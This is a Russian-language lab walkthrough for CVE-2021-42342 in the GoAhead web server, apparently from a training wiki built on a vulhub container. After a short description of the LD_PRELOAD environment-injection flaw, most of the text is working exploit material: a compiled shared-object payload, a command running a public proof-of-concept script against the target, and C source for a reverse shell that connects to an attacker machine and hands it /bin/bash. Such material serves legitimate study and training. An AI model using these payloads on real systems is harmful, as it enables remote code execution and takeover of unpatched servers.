



# CVE-2021-42342

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-42342](https://nvd.nist.gov/vuln/detail/CVE-2021-42342)
* [https://cve.report/CVE-2021-42342](https://cve.report/CVE-2021-42342)
* [https://www.opencve.io/cve/CVE-2021-42342](https://www.opencve.io/cve/CVE-2021-42342)

В GoAhead 4.x и 5.x до версии 5.1.5 была обнаружена проблема. В фильтре загрузки файлов переменные формы пользователя могут быть переданы CGI-скриптам без префикса CGI. Это позволяет передавать переменные окружения в уязвимые CGI-скрипты.

Злоумышленник может использовать эту возможность для загрузки полезной нагрузки в виде разделяемого объекта в многокомпонентной форме и перехватить переменную окружения LD\_PRELOAD для выполнения произвольного кода.

Эта уязвимость является обходом патча [CVE-2017-17562 ](../../containers/goahead/cve-2017-17562.md)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2021-42342

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница GoAhead 3.6.4

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

<pre><code><strong>gcc -shared -fPIC payload.c -o payload.so
</strong></code></pre>

Где payload.c - это файл с вышеупомянутым кодом

<figure><figcaption></figcaption></figure>

Далее используйте [данный](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py) скрипт для реализации атаки

```
python poc.py http://target-ip:8080/cgi-bin/index /путь_до_файла/payload.so
```

В ответе мы можем видеть, что появился заголовок hello со значением World, что свидетельствует об успешном выполнении команды

<figure><figcaption></figcaption></figure>

Для получения обратной оболочки скомпилируйте следующий код:

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

Где в переменную server\_ip впишите ip машины, на которую хотите получить оболочку

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC shell.c -o shell.so
```

Затем выполните команду&#x20;

```
python poc.py http://target-ip:8080/cgi-bin/index /путь/до/shell.so
```

<figure><figcaption></figcaption></figure>
